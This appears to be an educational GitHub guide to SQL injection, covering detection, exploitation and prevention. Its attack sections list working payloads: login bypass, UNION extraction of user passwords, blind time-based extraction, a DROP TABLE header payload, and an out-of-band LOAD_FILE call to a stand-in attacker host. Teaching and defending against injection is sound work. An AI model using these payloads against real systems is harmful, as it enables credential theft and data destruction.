




# SQL Injection (SQLi) Guide

A comprehensive and technically detailed reference for understanding, detecting, exploiting, and preventing SQL injection vulnerabilities.
This guide is designed for cybersecurity students, penetration testers, and backend developers who want both depth and practical examples.


# Table of Contents

| Section                                                                   | Description                                          |
| ------------------------------------------------------------------------- | ---------------------------------------------------- |
| [Introduction](#introduction)                                             | Core concepts                                        |
| [What is SQL Injection (SQLi)?](#what-is-sql-injection-sqli)              | Definitions & mechanics                              |
| [Impact](#impact-of-a-successful-sql-injection-attack)                    | Risks and consequences                               |
| [Detecting SQLi](#how-to-detect-sql-injection-vulnerabilities)            | Error-based, boolean, time delay, OAST               |
| [SQLi in Query Structure](#sql-injection-in-different-parts-of-the-query) | WHERE, UPDATE, INSERT, ORDER BY, dynamic identifiers |
| [Examples](#sql-injection-examples)                                       | Practical vulnerable cases                           |
| [Retrieving Hidden Data](#retrieving-hidden-data)                         | Comment truncation and logic manipulation            |
| [App Logic Bypass](#subverting-application-logic)                         | Authentication bypass                                |
| [UNION-based Extraction](#retrieving-data-from-other-database-tables)     | Cross-table data retrieval                           |
| [Blind SQLi](#blind-sql-injection-vulnerabilities)                        | Boolean, Time, OAST                                  |
| [Second-Order SQLi](#second-order-sql-injection)                          | Stored payload exploitation                          |
| [Database Enumeration](#examining-the-database)                           | Version, tables, columns                             |
| [SQLi in Various Contexts](#sql-injection-in-different-contexts)          | JSON, XML, headers, cookies                          |
| [Prevention](#how-to-prevent-sql-injection)                               | Prepared statements, whitelisting                    |
| [Diagrams](#diagrams)                                                     | Architecture & flow diagrams                         |


# Introduction

SQL Injection (SQLi) is one of the most impactful and studied vulnerabilities in web security.
It occurs when an attacker can influence the structure of SQL queries constructed by an application.

This guide contains structured theory, real payloads, detection tips, attack workflows, diagrams, and prevention best practices.


# What is SQL Injection (SQLi)?

<details>
<summary>Expand</summary>

SQL injection is a vulnerability arising when user-controlled data is inserted into a SQL query without proper validation or parameterization.
The attacker manipulates the query, often altering logic or executing unintended commands.

A vulnerable query:

```
SELECT * FROM products WHERE category = '$category';
```

If `$category` is:

```
Gifts' OR 1=1--
```

The resulting query becomes:

```
SELECT * FROM products WHERE category='Gifts' OR 1=1--';
```

This returns all rows.

</details>


# Impact of a successful SQL injection attack

<details>
<summary>Expand</summary>

A SQLi vulnerability may permit:

* Extraction of sensitive user information
* Administrative privilege escalation
* Modification or deletion of records
* Full database takeover
* Remote command execution in certain DB engines
* Long-term backdoor and persistence
* Data breaches involving millions of records

Advanced exploitation may target:

* File writes (MySQL `INTO OUTFILE`)
* OS command execution (MSSQL `xp_cmdshell`)
* Lateral movement across internal systems

</details>


# How to detect SQL injection vulnerabilities

<details>
<summary>Expand</summary>

Common detection techniques:

### 1. Error-based detection

Inject `'` or `")` to trigger syntax errors.

Example:

```
?id=1'
```

If the page returns SQL error messages, the input is injectable.

### 2. Logic-based detection

Payload:

```
?id=1 OR 1=1
?id=1 OR 1=2
```

Compare responses.

### 3. Time-based detection

MySQL:

```
1' AND SLEEP(5)--
```

PostgreSQL:

```
1' AND pg_sleep(5)--
```

### 4. OAST (Out-of-band)

Uses DNS or HTTP callbacks.

```
1'; SELECT LOAD_FILE('\\\\attacker.dnslog.com\\abc');--
```

### 5. Automated tools

* Burp Suite Scanner
* SQLMap
* Nmap NSE scripts

</details>


# SQL injection in different parts of the query

<details>
<summary>Expand</summary>

SQL injection does not only occur in WHERE clauses. It can occur in:

### WHERE clause

Filtering conditions.

### INSERT/UPDATE values

When input is inserted directly.

### ORDER BY clause

Example vulnerable query:

```
ORDER BY $sortField
```

### Table/column identifiers

Dynamic table selection:

```
SELECT * FROM $table
```

### LIMIT/OFFSET

```
LIMIT $count
```

### Functions or stored procedures

Unsafely constructed dynamic SQL inside procedures.

</details>


# SQL injection examples

<details>
<summary>Expand</summary>

This section includes:

* Hidden data retrieval
* Authentication bypass
* UNION-based extraction
* Blind SQLi
* Metadata extraction

Examples use MySQL-style syntax but apply across databases.

</details>


# Retrieving hidden data

<details>
<summary>Expand</summary>

Request:

```
/products?category=Gifts
```

Query:

```
SELECT * FROM products WHERE category='Gifts' AND released=1
```

Payload:

```
Gifts'--
```

Truncates remaining query, bypassing filters.

Advanced:

```
Gifts' OR 1=1--
```

</details>


# Subverting application logic

<details>
<summary>Expand</summary>

Login bypass:

Legitimate query:

```
SELECT * FROM users WHERE username='$u' AND password='$p'
```

Attacker input:

```
Username: admin'--
Password: (anything)
```

Final query:

```
SELECT * FROM users WHERE username='admin'--' AND password=''
```

Password check removed.

</details>


# Retrieving data from other database tables (UNION SQLi)

<details>
<summary>Expand</summary>

Original:

```
SELECT name, price FROM products WHERE category='Gifts'
```

Payload:

```
' UNION SELECT username, password FROM users--
```

Conditions:

* Column count must match
* Data types must be compatible

Use ORDERED probes:

```
UNION SELECT 1,2--
UNION SELECT 1,2,3--
```

</details>


# Blind SQL injection vulnerabilities

<details>
<summary>Expand</summary>

Cases where:

* No errors are shown
* No visible output is returned

Techniques:

### 1. Boolean-based

```
' AND SUBSTRING((SELECT username FROM users LIMIT 1),1,1)='a'--
```

### 2. Time-based

```
' AND IF(ASCII(SUBSTRING((SELECT database()),1,1))=100, SLEEP(5), 1)--
```

### 3. OAST / DNS-based

Leak via DNS callback.

</details>


# Second-order SQL injection

<details>
<summary>Expand</summary>

Occurs when:

1. Attacker input is stored safely
2. Later used in a different unsafe SQL query

Example:

* User sets display name to:

```
John', role='admin
```

* Later used inside an UPDATE query dynamically.

</details>


# Examining the database

<details>
<summary>Expand</summary>

Enumerating metadata:

### Version

MySQL:

```
SELECT @@version;
```

PostgreSQL:

```
SELECT version();
```

Oracle:

```
SELECT * FROM v$version;
```

### Tables

```
SELECT table_name FROM information_schema.tables;
```

### Columns

```
SELECT column_name FROM information_schema.columns WHERE table_name='users';
```

</details>


# SQL injection in different contexts

<details>
<summary>Expand</summary>

SQLi can appear in:

### 1. JSON payloads

If keys/values are embedded into SQL strings.

### 2. XML payloads

Example bypassing filters using encoded characters:

```xml
<id>1 &#x4f;R 1=1</id>
```

### 3. Cookies

```
Cookie: session=abc' OR '1'='1
```

### 4. HTTP headers

User-Agent headers used in logs:

```
Mozilla/5.0'); DROP TABLE users;--
```

</details>


# How to prevent SQL injection

<details>
<summary>Expand</summary>

### 1. Parameterized queries

Safe:

```java
PreparedStatement stmt =
 connection.prepareStatement("SELECT * FROM products WHERE category=?");
```

### 2. Stored procedures

Only if they avoid dynamic SQL.

### 3. Whitelisting identifiers

Table names, column names must be from controlled lists.

### 4. ORM frameworks

Hibernate, JPA, Sequelize reduce injection surface.

### 5. Escaping where necessary

Use database-specific escaping rules.

### 6. Database permissions

Least privilege principle.

</details>


# Diagrams

## SQL Injection Overview



## Expanded SQLi Attack Workflow



## SQL Query Anatomy Mindmap



## Blind SQL Extraction Process



